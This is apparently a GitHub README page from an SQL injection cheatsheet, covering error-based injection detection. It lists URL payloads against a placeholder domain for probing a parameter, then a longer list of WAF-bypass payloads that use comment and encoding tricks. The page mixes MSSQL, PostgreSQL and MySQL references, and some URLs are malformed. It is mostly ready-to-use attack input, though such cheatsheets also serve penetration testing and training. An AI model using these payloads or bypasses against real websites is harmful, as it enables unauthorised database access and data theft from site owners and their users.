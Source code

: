 

[photo](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#mssql-error-based-sql-injection-cheatsheet)

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the PostgreSQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

[photo](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#detecting-the-vulnerability)

`http://domain.com/index.php?id=1`  
Website loads successfully

`http://domain.com/index.php?id=1'`  
Error message shows up: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...`

`http://domain.com/index.php?id=1\'`  
Error message shows up: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...`

`http://domain.com/index.php?id=2-1`  
Website loads successfully

`http://domain.com/index.php?id=-1'`  
Error message shows up again

`http://domain.com/index.php?id=-1)'`  
Error message shows up again

`http://domain.com/index.php?id=1'-- -`  
Website might loads successfuly, but it might shows error also

`http://domain.com/index.php?id=1'--`  
Website might loads successfuly, but it might shows error also

`http://domain.com/index.php?id=1+--+`  
Website might loads successfuly, but it might shows error also

## Bypassing WAF to detect the vulnerability (if the first methodology didn't work)

[photo](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#bypassing-waf-to-detect-the-vulnerability-if-the-first-methodology-didnt-work)

In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

`http://domain.com/index.php?id=1'--/**/-`  
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

`http//domain.com/index.php?id=/^.*1'--+-.*$/`  
`http//domain.com/index.php?id=/*!500001'--+-*/`  
`http//domain.com/index.php?id=1'--/**/-`  
`http//domain.com/index.php?id=1'--/*--*/-`  
`http//domain.com/index.php?id=1'--/*&a=*/-`  
`http//domain.com/index.php?id=1'--/*1337*/-`  
`http//domain.com/index.php?id=1'--/**_**/-`  
`http//domain.com/index.php?id=1'--%0A-`  
`http//domain.com/index.php?id=1'--%0b-`  
`http//domain.com/index.php?id=1'--%0d%0A-`  
`http//domain.com/index.php?id=1'--%23%0A-`  
`http//domain.com/index.php?id=1'--%23foo%0D%0A-`  
`http//domain.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-`  
`http//domain.com/index.php?id=1'--#qa%0A#%0A-`  
